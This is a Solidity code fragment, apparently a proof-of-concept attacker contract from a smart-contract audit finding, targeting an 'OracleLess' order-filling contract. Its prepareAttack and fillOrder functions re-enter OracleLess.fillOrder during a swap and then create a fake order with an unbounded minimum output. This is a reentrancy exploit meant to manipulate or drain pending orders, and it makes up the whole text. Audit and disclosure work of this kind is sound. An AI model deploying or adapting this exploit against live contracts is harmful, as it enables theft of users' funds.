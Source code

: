 ```solidity
    IOracleLess oracleless;

    uint96 pendingOrderIdx;
    IOracleLess.Order order;
    bytes routerTxData;
    uint96 fakeOrderId;

    constructor(address _routerAddress) {
         routerAddress = _routerAddress;
    }

    function prepareAttack(uint96 _pendingOrderIdx,
                           uint96 _orderId,
                           IERC20 _tokenIn,
                           IERC20 _tokenOut,
                           uint256 _amountIn,
                           uint256 _minAmountOut,
                           bytes calldata _routerTxData) external {
        pendingOrderIdx = _pendingOrderIdx;
        order.orderId = _orderId;
        order.tokenIn = _tokenIn;
        order.tokenOut = _tokenOut;
        order.amountIn = _amountIn;
        order.minAmountOut = _minAmountOut;
        routerTxData = _routerTxData;

        order.tokenIn.safeTransferFrom(msg.sender, address(this), order.amountIn);
    }

    function fillOrder() external {
        oracleless = IOracleLess(msg.sender);

        order.tokenIn.safeTransferFrom(msg.sender, address(this), order.amountIn);
        order.tokenIn.safeApprove(routerAddress, order.amountIn);

        // uniswap call
        (bool success, bytes memory reason) = routerAddress.call(routerTxData);
        if (!success) {
            revert TransactionFailed(reason);
        }
        
        if (!hasReentered) {
            hasReentered = true;
            // reentrant call
            IOracleLess(msg.sender).fillOrder(pendingOrderIdx,
                                              order.orderId,
                                              address(this),
                                              abi.encodeWithSignature("fillOrder()"));

            // put some in tokens in the oracleless contract
            order.tokenIn.safeApprove(msg.sender, order.amountIn);
            fakeOrderId = oracleless.createOrder(
                order.tokenIn,
                order.tokenOut,
                order.amountIn,
                type(uint256).max,
                address(this),
                25,
                false,
                bytes("")
            );
            hasReentered = false;
        }
```